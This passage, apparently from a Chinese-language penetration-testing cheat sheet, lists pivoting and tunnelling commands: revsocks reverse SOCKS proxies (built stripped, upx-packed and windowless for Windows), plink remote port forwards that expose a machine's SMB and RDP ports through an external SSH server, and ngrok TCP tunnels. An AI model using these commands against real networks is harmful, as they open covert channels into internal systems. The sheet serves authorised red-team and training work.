 ```powershell
# 在服务器上监听并在端口1080上创建一个SOCKS 5代理
user@VPS$ ./revsocks -listen :8443 -socks 127.0.0.1:1080 -pass Password1234

# 将客户端连接到服务器
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234 -proxy proxy.domain.local:3128 -proxyauth Domain/username:userpass -useragent "Mozilla 5.0/IE Windows 10"
```

```powershell
# 为Linux构建
git clone https://github.com/kost/revsocks
export GOPATH=~/go
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
go build
go build -ldflags="-s -w" && upx --brute revsocks

# 为Windows构建
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
go build -ldflags -H=windowsgui
upx revsocks
```

## plink

```powershell
# 通过SSH服务器暴露机器的SMB端口
plink -l root -pw toor -R 445:127.0.0.1:445 
# 通过SSH服务器暴露机器的RDP端口
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [要在您的VPS上转发的端口]:localhost:[要在您的本地机器上转发的端口] [VPS IP]
# 将Windows端口445重定向到Kali上的端口22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```

## ngrok

```powershell
# 获取二进制文件
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip 

# 登录服务
./ngrok authtoken 3U[REDACTED_TOKEN]Hm

# 为4433部署端口转发
./ngrok http 4433
./ngrok tcp 4433
```
